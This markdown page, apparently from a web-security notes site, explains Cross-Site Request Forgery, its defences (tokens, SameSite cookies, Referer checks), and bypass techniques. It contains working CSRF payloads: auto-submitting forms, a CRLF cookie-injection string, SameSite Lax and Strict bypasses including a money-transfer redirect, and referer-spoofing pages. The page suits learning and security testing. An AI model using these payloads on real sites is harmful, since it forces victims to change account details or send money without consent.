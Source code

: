 ```yaml
---
title: "Cross-Site Request Forgery (CSRF)"
weight: 8
description: "Learn what CSRF attacks are, how they work with real examples, and how to defend against them using CSRF tokens, SameSite cookies, and referer validation."
---
```


# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web attack where a malicious site tricks a user into performing actions on another site where they're authenticated. For example, it could change a user's email or send money—without their consent.

---

## How CSRF Attacks Work

An attacker can trick a logged-in user into submitting unwanted requests.

### POST-Based Attack

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### GET-Based Attack

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

---

## CSRF Defenses

{{< details summary="CSRF Tokens" >}}

A CSRF token is a unique and unpredictable value generated by the server. It must be submitted with sensitive requests (like changing an email). This ensures the request comes from a legitimate user.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="example@normal-website.com">
  <input required type="hidden" name="csrf" value="unique-random-token">
  <button type="submit">Update Email</button>
</form>
```

{{< hint style=notes >}}
CSRF tokens should be tied to the user's session and checked on the server.
{{< /hint >}}

{{< /details >}}

{{< details summary="SameSite Cookies" >}}

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

- `Strict`: Only sent in same-site requests (most secure).
- `Lax`: Sent on same-site and top-level GET requests (default in most modern browsers).
- `None`: Sent in all requests but must be marked `Secure`.

{{< /details >}}

{{< details summary="Referer Header Validation" >}}

Some applications check the `Referer` header to verify that requests are coming from their own domain. This can help prevent CSRF attacks—but it's not foolproof.

{{< hint style=warning >}}
Don't rely solely on referer validation. Users or browsers may strip or modify this header.
{{< /hint >}}

{{< /details >}}

---

## CSRF Token Bypass Techniques

- Switch from `POST` to `GET`
- Remove the CSRF token parameter
- Use a predictable or fake token
- Use Burp Sequencer to analyze the quality of randomness of the token 
- Reuse a token from your own session (if the app doesn't check the token-user binding)
- There are two token: one in a cookie and one in hidden input (this can also have the same value)
  - Some apps do tie the CSRF token to a cookie, but not to the session cookie.
  - Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
  - ```sh
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  - Log in to the application with your account -> obtain a valid token and associated cookie.
  - Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

  ```html
  <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  ```

---

## Bypassing SameSite Protections

### Bypassing Lax Mode

- Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- GET method override (bypass lax)
  - Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  - ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```


### Bypassing Strict Mode

Use a client-side redirect:

```javascript
// On page: https://vulnerable-website.com/post/confirm?postId=10
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

Now trigger redirect to a sensitive endpoint:

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{{< hint style=notes >}}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{{< /hint >}}

---

## Bypassing Referer Validation

### Strip the Referer

Some apps validate the Referer header if present, but skip if omitted:

```html
<meta name="referrer" content="never">
```

This prevents the browser from sending the `Referer` header.

### Fake the Referer

Common tricks include using subdomains or path tricks:

```md
http://vulnerable-website.com.attacker.com/csrf
http://attacker.com/csrf?vulnerable-website.com
```

You need to add `Referrer-Policy` to `unsafe-url`:

```html
<meta name="referrer" content="unsafe-url" />
```

{{< hint style=tips >}}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

```html
<!-- http://attacker-website.com/ -->
<html>
  <meta name="referrer" content="unsafe-url"/>
  <body>
    <form action="https://vulnerable-website.com/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{{< /hint >}}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy \[[🔗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)] .
